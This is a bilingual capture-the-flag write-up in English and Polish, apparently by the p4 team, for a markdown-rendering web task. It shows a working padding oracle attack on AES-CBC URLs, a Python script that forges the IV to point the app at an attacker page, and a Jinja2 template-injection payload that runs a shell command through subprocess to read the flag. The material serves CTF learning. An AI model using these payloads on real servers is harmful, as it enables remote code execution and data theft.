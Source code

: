# Mark is falling down drunk (crypto/web)

## ENG
[PL](#pl-version)

In the task we get a link for a webpage where someone deployed an application for parsing markdown.
There are a couple of example links.
We notice that the URL is always the same, but the contains a long hex-string, which probably points to the actual page displayed.
If we modify the hex-string the page crashes or gives us `incorrect url` message.

This seems like a standard setup for padding oracle attack.
We assume that the hex-string is actually AES CBC encrypted data.
The first 16 bytes seems to indicate this even more because they are always `deadbeefcafedeadbeefcafe04030201` which seems like a nice IV.

So we run our padding oracle attack. 
For more in depth description of the attack refer to our previous writeups on this.
In short we exploit the fact that by manipulating value of previous ciphertext block we can influence the plaintext value or corresponding byte in the next block, directly from the CBC definition.
And if we accidentally set the last byte to `\01` then the decryption will not fail, since this is a proper padding.
We can then recover the real value of this last byte because we know that `ciphertext[k-1][n] xor decrypt(ciphertext[k][n])` is now `\01` and we know the value of `ciphertext[k-1][n]`.
We can then proceed to setting last 2 bytes to `\02\02` and so on to recover everything.

Using our code from crypto commons with:

```python
import requests
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

data = 'deadbeefcafedeadbeefcafe0403020131fdd089e91025df9510efa46b2085aac738ae5e03daa6495e2e4ee83283282a5be01dd6d817df2c0e69cd613c7da160a6aab9f02d175ac549feb6b674fa6f65'

print(oracle_padding_recovery(data, oracle))

# https://gitlab.com/gitlab-org/gitlab-ce/raw/master/README.md
```

And we do the same for all the links.
There is a problem there, because for some reason we can't recover the first block.
The server was crashing when there was only one plaintext block.
But this was not really an issue, since the links were quite obvious and we could just guess the missing bytes.

The most interesting link was the one for their own example, which contained something like

```
{{ config['page'] }}
```

In the content, but when viewed with their Markdown parser it was presenting an actual link.
This meant that we could evaluate templates if we can get a ciphertext for our own webpage.

This was a bit of an issue, since standard approach would be to change the IV so that first block of the plaintext decrypts to `http://our.page\01` and sending just the IV and this one block.

Just as a reminder, we can do this since decryption of 1st block for CBC is `IV xor decrypt(ciphertext[0])`, and since we know the IV and we know the value of `decrypt(ciphertext[0])` we can simply set selected IV byte to: 
`newIV[k] = IV[k] xor plaintext[k] xor expected_value`

And the decryption will give us `expected_value` at `k-th` position.

In our scenario this would not work, because the single block payloads were failing (maybe admins fixed this later?).
Anyway, we figured that we can also instead set the first block to: `http://our.page?` and leave the other blocks, because now the rest of some other URL will be treated as GET parameters and the link will work fine.

This way we got an example payload:

```python
data = 'deadbeefcafedeadbeefcafe0403020152208110d1a06ce628ff8e10f4cbc1aa96ac276f57b6d80e50df1050c455fdf440d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02'.decode("hex")
old_iv = list(data[:16])
target_payload = list(pad("https://p4.team?"))
pt = "https://raw.githubusercontent.com/dlitz/pycrypto/master/README\02\02"[:16]
new_iv = "".join([chr(ord(old_iv[i]) ^ ord(pt[i]) ^ ord(target_payload[i])) for i in range(16)])
payload = (new_iv + data[16:]).encode("hex")
print(payload)
```

And by passing this payload we can now load our markdown code on the server.

Now we move to the template injection exploit.
We use a classic approach to do `''.__class__.__mro__[1].__subclasses__()` to get list of all subclasses of `object` loaded in python.
There was a small problem, because the `__something__` was actually interpreted as markdown and replaced by `<strong>something</strong>` so we had to put the payload in backticks to avoid this.

Once we got a list of all classes we found the `catch_warnings` which we could exploit:

```
{% set loadedClasses = ''.__class__.__mro__[1].__subclasses__() %} 
{% for loadedClass in loadedClasses %} 
	{% if loadedClass.__name__ == 'catch_warnings' %} 
		{% set builtinsReference = loadedClass()._module.__builtins__ %} 
		{% set os = builtinsReference['__import__']('subprocess') %}
		{{ os.check_output('cat app/flag', shell=True) }}
	{% endif %} 
{% endfor %} 
```

and get the flag `NDH{edfba7f05f2d0a30f54b0820105cdab21f59b60a7d72f5c7b38c23db840d6cab}`

## PL version

W zadaniu dostajemy link do strony gdzie ktoś udostępnił swoją aplikacje do parsowania markdown.
Jest tam kilka przykładowych linków.
Zauważamy, że URL jest zawsze taki sam, ale zawiera długi hex-string, który najpewniej opisuje własciwą stronę.
Jeśli zmienimy ten hex-string to strona się wysypuje lub dostajemy `incorrect url`.

To wygląda jak standardowy setup dla ataku padding oracle.
Zakładamy tu, że hex-string to w rzeczywistości szyfrogram AES CBC.
Pierwsze 16 bajtów mocno to sugeruje bo to zawsze `deadbeefcafedeadbeefcafe04030201` co wygląda na jakieś IV.

Uruchamiamy więc nasz padding oracle.
Dla bardziej szczegółowego opisu tego ataku odsyłamy do naszych poprzednich writeupów na ten temat.
W skrócie wykorzystujemy tu fakt, że manipulując wartością poprzedniego bloku szyfrogramu możemy wpłynąć na deszyfrowanie odpowiedniego bajtu następnego bloku, bezpośrednio z definicji CBC.
Jeśli przypadkowo zmienimy ostatni bajt na `\01` to deszyfrowanie nie zgłosi błędu, bo padding będzie poprawny.
Możemy wtedy odkryć prawdziwą wartość tego ostatniego bajtu, bo wiemy, że `ciphertext[k-1][n] xor decrypt(ciphertext[k][n])` wynosi teraz `\01` a znamy wartość `ciphertext[k-1][n]`.
Następnie możemy powtórzyć to samo, ale tym razem ustawiając dwa ostatnie bloki na `\02\02` itd aż odzyskamy całą odszyfrowaną wiadomość.

Z użyciem naszego kodu z crypto commons:

```python
import requests
from crypto_commons.symmetrical.symmetrical import oracle_padding_recovery

data = 'deadbeefcafedeadbeefcafe0403020131fdd089e91025df9510efa46b2085aac738ae5e03daa6495e2e4ee83283282a5be01dd6d817df2c0e69cd613c7da160a6aab9f02d175ac549feb6b674fa6f65'

print(oracle_padding_recovery(data, oracle))

# https://gitlab.com/gitlab-org/gitlab-ce/raw/master/README.md
```

I postępujemy tak samo dla wszystkich linków.
Jest tam pewien problem, ponieważ nie możemy odzyskać 1 bloku.
Serwer wysypuje się jeśli jest tylko 1 blok szyfrogramu.
To na szczęście nie stanowiło wielkiego problemu, bo linki były dość oczywiste i mogliśmy zgadnąć brakujace bajty.

Najbardziej interesujący był link do przykładu od autorów zadania, który zawierał coś w stylu:

```
{{ config['page'] }}
```

W treści, podczas gdy na stronie po sparsowaniu Markdown widniał faktyczny link.
To oznacza że można ewaluować szablony, jeśli tylko możemy przekazać tam własną stronę.

To stanowiło jednak początkowo problem, bo standardowe podejście to ustawić IV tak, zeby pierwszy blok odszyfrowanego tekstu deszyfrował się do `http://our.page\01` i wysłanie tylko nowego IV i tego jednego bloku.

Dla przypomnienia, możemy tak zrobić, bo deszyfrowanie 1 bloku to `IV xor decrypt(ciphertext[0])` a skoro znamy IV i wiemy jaka jest wartość `decrypt(ciphertext[0])` to możemy ustawić wybrany bajt IV do:
`newIV[k] = IV[k] xor plaintext[k] xor expected_value`

A deszyfrowanie da nam `expected_value` na `k-tej` pozycji.

W naszym przypadku to nie mogło zadziałać, bo jeden blok szyfrogramu powodował błąd serwera (admini to później poprawili?).
Tak czy siak, wymyśliliśmy jak ten problem obejść, przez ustawienie pierwszego bloku na `http://our.page?` i pozostawienie pozostałych bloków, ponieważ teraz ten pozostały fragment starego URLa będzie potraktowany jako parametry GET a nasz link zadziała poprawnie.

W ten sposób dostajemy szyfrogram:

```python
data = 'deadbeefcafedeadbeefcafe0403020152208110d1a06ce628ff8e10f4cbc1aa96ac276f57b6d80e50df1050c455fdf440d56ae51399ceb30b5b69153ddc230219e3f662023665e8885c90867b8c3a02'.decode("hex")
old_iv = list(data[:16])
target_payload = list(pad("https://p4.team?"))
pt = "https://raw.githubusercontent.com/dlitz/pycrypto/master/README\02\02"[:16]
new_iv = "".join([chr(ord(old_iv[i]) ^ ord(pt[i]) ^ ord(target_payload[i])) for i in range(16)])
payload = (new_iv + data[16:]).encode("hex")
print(payload)
```

I przekazując do go strony możemy teraz ewaluować nasz własny kod mardown na serwerze.

Teraz przechodzimy do template injection.
Stosujemy tu dość standardowy zabieg `''.__class__.__mro__[1].__subclasses__()` aby pobrać listę podklas `object` załadowanych w pythonie.

Tutaj mieliśmy przez chwilę problem bo `__cośtam__` było procesowane przez markdown i zamieniane na `<strong>cośtam</strong>`  więc musieliśmy kod objąć w backticki.

Mając listę klas znaleźliśmy `catch_warnings` które można było wykorzystać:

```
{% set loadedClasses = ''.__class__.__mro__[1].__subclasses__() %} 
{% for loadedClass in loadedClasses %} 
	{% if loadedClass.__name__ == 'catch_warnings' %} 
		{% set builtinsReference = loadedClass()._module.__builtins__ %} 
		{% set os = builtinsReference['__import__']('subprocess') %}
		{{ os.check_output('cat app/flag', shell=True) }}
	{% endif %} 
{% endfor %} 
```

aby dostać flagę: `NDH{edfba7f05f2d0a30f54b0820105cdab21f59b60a7d72f5c7b38c23db840d6cab}`

